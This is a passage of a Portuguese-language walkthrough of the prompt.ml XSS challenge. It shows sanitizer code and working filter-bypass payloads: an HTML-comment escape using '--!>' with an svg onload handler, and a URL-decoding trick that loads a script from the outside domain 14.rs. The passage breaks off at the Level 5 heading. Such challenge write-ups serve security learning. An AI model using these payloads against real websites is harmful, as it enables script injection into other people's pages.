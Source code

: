 ### 🔍 Código:

```js
input = input.replace(/->/g, '_');
return '<!-- ' + input + ' -->';
```

### 🧠 Análise:

A entrada é colocada dentro de um comentário HTML. O fechamento padrão `-->` é bloqueado.

### 💡 Estratégia:

* Usar a sequência `--!>`, que apesar de gerar erro de parse, termina o comentário.

### ✅ Payload:

```html
--!><svg/onload=prompt(1)
```

---

## ✅ Level 4 - `decodeURIComponent` + Regex

### 🔍 Código:

```js
if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
  // cria <script src=input>
}
```

### 🧠 Análise:

Valida se a URL começa com `//prompt.ml/`, mas antes disso, a string é decodificada.

### 💡 Estratégia:

* Usar `%2f` (equivalente a `/`) e `@` para fingir que `prompt.ml` é um usuário, não o host.

### ✅ Payload:

```html
//prompt.ml%2f@14.rs
```

*(O domínio `14.rs` deve hospedar um script com `prompt(1)`)*

*(O domínio depois de `@` deve hospedar o script com `prompt(1)`)*

---

## ✅ Level 5 - Regex mal feita + eventos em linha
